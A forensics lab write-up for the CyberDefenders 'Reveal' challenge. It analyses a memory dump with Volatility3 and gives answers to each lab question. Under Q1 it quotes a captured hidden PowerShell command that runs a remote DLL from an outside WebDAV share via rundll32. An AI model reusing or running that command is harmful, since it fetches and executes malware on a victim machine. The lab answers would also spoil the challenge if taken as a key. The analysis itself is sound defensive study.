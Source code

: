 This is a brief description of my work on the CyberDefenders "Reveal" lab (category: Endpoint Forensics).  


Here is the scenario:


*As a cybersecurity analyst for a leading financial institution, an alert from your SIEM solution has flagged unusual activity on an internal workstation. Given the sensitive financial data at risk, immediate action is required to prevent potential breaches.*


*Your task is to delve into the provided memory dump from the compromised system. You need to identify basic Indicators of Compromise (IOCs) and determine the extent of the intrusion. Investigate the malicious commands or files executed in the environment, and report your findings in detail to aid in remediation and enhance future defenses.*

To get started, I ran a few Volatility3 plugins with the output directed into their own file: psxview, pstree, cmdline, netscan, malfind. See the files in this folder for the output.
Then I imported the output into a spreadsheet application for easier review: the tab-delimited output doesn't render correctly in Notepad or Notepad++, and its easier to sort the data this way.

I made some initial observations and bolded these rows for follow up later: 

- powershell.exe and msiexec.exe in the "psxview" output, and

- WMiPrvSE.exe, Calculator.exe (this is a child process of svchost.exe, which is suspicious), and the orphaned processes MicrosoftEdgeUpdater.exe, wordpad.exe, powershell.exe, and net.exe.

Looking at the "pstree" output, the command line associated with powershell.exe was the apparent malicious process: use of rundll32 to load a DLL over a network share is a popular method to load and execute code directly in memory, without leaving any disk artifacts behind.

Now for the questions!

Q1 Identifying the name of the malicious process helps in understanding the nature of the attack. What is the name of the malicious process? **powershell.exe**
- I ran the "pstree" plugin, identified a suspicious process and confirmed after a review of the command line used to execute it: 
`powershell.exe -windowstyle hidden net use \\45.9.74.32@8888\davwwwroot\ ; rundll32 \\45.9.74.32@8888\davwwwroot\3435.dll,entry`

Q2 Knowing the parent process ID (PID) of the malicious process aids in tracing the process hierarchy and understanding the attack flow. What is the parent PID of the malicious process? **4120**
- I learned this from reviewing the "pstree" output.

Q3 Determining the file name used by the malware for executing the second-stage payload is crucial for identifying subsequent malicious activities. What is the file name that the malware uses to execute the second-stage payload? **3435.dll**
- I learned this from reviewing the command described in the answer for Q1.

Q4 Identifying the shared directory on the remote server helps trace the resources targeted by the attacker. What is the name of the shared directory being accessed on the remote server? davwwwroot
- I learned this from reviewing the command described in the answer for Q1.

Q5 What is the MITRE sub-technique ID used by the malware to execute the second-stage payload? T1218.011 (System Binary Proxy Execution: Rundll32)
- I searched the MITRE ATT&CK website to find the sub-technique ID associated with rundll32.

Q6 Identifying the username under which the malicious process runs helps in assessing the compromised account and its potential impact. What is the username that the malicious process runs under? Elon
- I ran the "getsids" plugin against the malicious process ID.

Q7 Knowing the name of the malware family is essential for correlating the attack with known threats and developing appropriate defenses. What is the name of the malware family? STRELASTEALER
- I looked up the IP address from the command described in the answer for Q1 in VirusTotal.
